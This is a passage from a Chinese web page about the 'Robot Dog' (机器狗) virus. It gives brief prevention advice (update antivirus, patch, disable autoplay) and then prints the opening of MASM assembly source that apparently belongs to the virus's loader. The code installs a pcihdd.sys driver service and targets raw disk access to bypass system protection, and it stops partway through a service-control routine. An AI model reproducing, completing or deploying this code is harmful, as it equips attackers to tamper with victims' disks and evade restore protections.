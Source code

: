 可防止最新变种。请注意：此法只能是防止，对于杀机器狗还得靠最新的杀毒程序才行。
针对该病毒，反病毒专家建议广大用户及时升级杀毒软件病毒库，补齐系统[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF)，上网时确保打开“网页监控”、“邮件监控”功能；禁用系统的自动播放功能，防止病毒从U盘、MP3、移动硬盘等移动存储设备进入到计算机；登录网游账号、网络银行账户时采用软键盘输入账号及密码

代码如下:

.386
.model flat,stdcall
option casemap:none

include windows.inc
include user32.inc
include kernel32.inc
include advapi32.inc
includelib advapi32.lib
includelib user32.lib
includelib kernel32.lib

.data
Text            db '对不起,驱动程序的加载没有成功,程序将无法运行.',0
FileName        db '\.PhysicalHardDisk0',0
a_Physicaldrive  db '\.PhysicalDrive0',0
aFCJ            db '分配内存不成功',0
OutputString    db '操作成功', 0
Dst             db 10Ch dup(0)
hModule         dd 0
ERR1            db '寻址文件不成功',0
ERR2            db '不支持的磁盘分区',0
ERR3            db '第一个分区不是启动分区',0
ERR4            db '该文件是压缩文件，不能操作',0
ERR5            db '获取文件原始信息失败',0
ERR6            db '打开文件失败',0
ERR7            db '加载驱动失败',0

.code

Src             db '%SystemRoot%system32driverspcihdd.sys',0
ServiceName     db 'PciHdd',0

;**********************************************************************************************
;退出服务，并删除文件badwolf祝福你好运！http://www.winshell.cn QQ:13699576
;**********************************************************************************************
QuitService proc
LOCAL ServiceStatus
LOCAL hSCObject
LOCAL hSCManager
LOCAL @FileName[100h]:byte

push  0F003Fh    ; dwDesiredAccess
push  0    ; lpDatabaseName
push  0    ; lpMachineName
call  OpenSCManagerA
or  eax, eax
jz  OpenSCManagerFail
mov  hSCManager, eax
